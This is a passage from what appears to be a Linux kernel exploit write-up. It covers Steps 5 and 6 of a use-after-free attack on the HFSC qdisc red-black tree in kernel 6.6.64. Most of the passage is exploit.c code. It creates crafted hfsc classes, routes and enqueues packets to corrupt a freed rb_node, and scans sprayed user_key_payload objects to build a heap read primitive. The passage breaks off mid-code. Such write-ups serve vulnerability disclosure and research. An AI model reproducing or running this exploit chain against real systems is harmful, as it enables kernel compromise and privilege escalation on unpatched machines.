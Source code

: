 - Because I choose to allocate `fake_hfsc_class_backed_by_user_key_payload_B` with `datalen == 0x200`, this `rb_node` will be considered as `RB_RED` node.

### Step5: Add a node to `UAF_rb_node->rb_right` by doing the following things:
- Create `struct hfsc_class` object with `HFSC_RSC` flag. Let's call this class_C. There's a default qdisc linked with class_C in the creation process.
[[exploit.c#L1212]](../exploit/lts-6.6.64/exploit.c#L1212)
```c
struct tc_service_curve rsc_C = { .m1 = 1, .m2 = 1, .d = 0 };
create_hfsc_class(
	heap_read_primitive->route_socket,
	heap_read_primitive->rb_tree_interface_ifindex,
	heap_read_primitive->rb_tree_interface_qdisc_A_handle,
	heap_read_primitive->rb_tree_interface_classid_C,
	&rsc_C,
	NULL,
	NULL
);
```
- Configure `Victim_Qdisc` to route enqueued packet to qdisc linked with class_C.
[[exploit.c#L1222]](../exploit/lts-6.6.64/exploit.c#L1222)
```c
change_hfsc_qdisc_route(
	heap_read_primitive->route_socket,
	heap_read_primitive->rb_tree_interface_ifindex,
	TC_H_ROOT,
	heap_read_primitive->rb_tree_interface_qdisc_A_handle,
	heap_read_primitive->rb_tree_interface_classid_C
);
```
- Enqueue new packet throught `Victim_Qdisc` will eventually lead to `init_ed(class_C)` -> `eltree_insert(class_C)`.
[[exploit.c#L1229]](../exploit/lts-6.6.64/exploit.c#L1229)
```c
trigger_qdisc_enqueue(heap_read_primitive->raw_packet_socket, heap_read_primitive->rb_tree_interface_ifindex);
```
- After the enqueue process success, `Victim_Qdisc->q.qlen == 0`. Therefore, we can keep `->dequeue()` out of the way and keep `class_C` object on the tree.
- Now, the `UAF_rb_node` look liks this:
```c
UAF_rb_node->__rb_parent_color == NULL | RB_BLACK;
UAF_rb_node->rb_right == &(class_C->el_node);
UAF_rb_node->rb_left == &(fake_hfsc_class_backed_by_user_key_payload_B->datalen);
```

### Step6: Findout which `user_key_payload` object sprayed from Step4 that overlapped with `UAF_rb_node`
[[exploit.c#L1231]](../exploit/lts-6.6.64/exploit.c#L1231)
- Read each `user_key_payload` data and look for `UAF_rb_node->rb_right` heap address.
```c
bool found_reclaim_key = false;
for (u32 i = 0; i < heap_read_primitive->key_spray_count && !found_reclaim_key; i++) {
	user_key_payload_read(
		heap_read_primitive->key_spray[i],
		user_key_payload_read_buffer,
		sizeof(user_key_payload_read_buffer)
	);

	fake_rb_node = (struct rb_node *)
		(
			user_key_payload_read_buffer + \
			struct_hfsc_class_member_el_node_offset - \
			sizeof(struct user_key_payload)
```